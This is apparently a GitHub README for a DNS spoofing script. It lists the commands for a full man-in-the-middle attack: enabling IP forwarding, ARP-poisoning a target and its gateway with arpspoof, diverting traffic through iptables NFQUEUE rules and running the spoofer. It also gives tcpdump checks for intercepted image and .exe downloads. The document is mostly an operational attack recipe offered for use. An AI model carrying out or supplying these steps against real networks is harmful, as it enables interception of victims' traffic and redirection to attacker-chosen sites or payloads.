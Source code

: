 ### DNS Spoofing
is a program to spoof dns entries.  
Modifying every requests manually after intercepting each request will be time consuming, to solve this, we automate it.  
  
### usage - sudo python3 dnsspoof.py eth0  
  <pre>
Steps:  
    0. Update target website link and spoofing link in script.  
    1. Forward all packets to our computer  
        1. echo 1 > /proc/sys/net/ipv4/ip_forward  
    2. ARP Spoof  
	1. arpspoof -i eth0 -t 10.0.2.15 10.0.2.1  
	2. arpspoof -i eth0 -t 10.0.2.1 10.0.2.15  
    3. Forward all dns - block all real packets  
	To test in local system or same system  
           1. sudo iptables -I OUTPUT -j NFQUEUE --queue-num 0  
           2. sudo iptables -I INPUT -j NFQUEUE --queue-num 0  
        To test in other system, target system  
           1. sudo iptables -I FORWARD -j NFQUEUE --queue-num 0     
    4. python3 dnsspoof.py eth0  
    5. To check if its working  
	1. tcpdump -i eth0 udp port 53  
	2. sudo iptables -L -v -n  
	3. sudo tcpdump -i any port 80 -A | grep ".jpg"  
	4. sudo tcpdump -i any -A port 80 | grep -Ei "\.jpg|\.exe|\.pdf"  
    6. After completing - flush the rules  
	1. iptables --flush  
	2. iptables -t nat -F  
  </pre>  
Run the steps following them and we can spoof dns records.  
  
Requirements - install required libraries. For help, refer tools section
